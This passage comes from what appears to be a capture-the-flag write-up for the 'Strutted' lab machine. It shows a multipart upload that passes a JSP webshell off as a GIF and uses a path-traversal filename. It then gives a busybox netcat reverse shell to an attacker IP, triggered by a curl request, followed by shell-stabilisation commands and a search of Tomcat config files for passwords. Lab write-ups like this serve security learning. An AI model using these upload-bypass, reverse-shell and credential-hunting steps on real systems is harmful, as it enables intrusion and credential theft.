```

-----------------------------34232648183382128405422289677
Content-Disposition: form-data; name="Upload"; filename="shell.gif";
Content-Type: image/png

GIF87a
// jsp webshell here
-----------------------------34232648183382128405422289677
Content-Disposition: form-data; name="top.UploadFileName"

../../shell.jsp
-----------------------------34232648183382128405422289677--
```

Now we can run commands so I sent a URL encoded `busybox` reverse shell from [revshells](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"}

```bash
busybox nc <ATTACKER-IP> 4444 -e /bin/bash
```

Triggering the reverse shell

```bash
nc -lvnp 4444 # listener on the attacking machine
```

```bash
curl 'http://strutted.htb/shell.jsp?action=cmd&cmd=busybox%20nc%2010.10.14.186%204444%20-e%20%2Fbin%2Fbash'
```

We can stabilize and upgrade the shell using `python3`

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# ctrl + z
stty raw -echo && fg
export SHELL=/bin/bash
export TERM=screen
```

## user.txt
Now that we're on the server let's look for credentials in the configuration files

```bash
tomcat@strutted:~/conf$ cat tomcat-users.xml  |  grep 'password'
  you must define such a user - the username and password are arbitrary.
  will also need to set the passwords to something appropriate.
  <user username="admin" password="<must-be-changed>" roles="manager-gui"/>
  <user username="robot" password="<must-be-changed>" roles="manager-script"/>
  <user username="admin" password="<PASSWORD>" roles="manager-gui,admin-gui"/>
  them. You will also need to set the passwords to something appropriate.
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
```
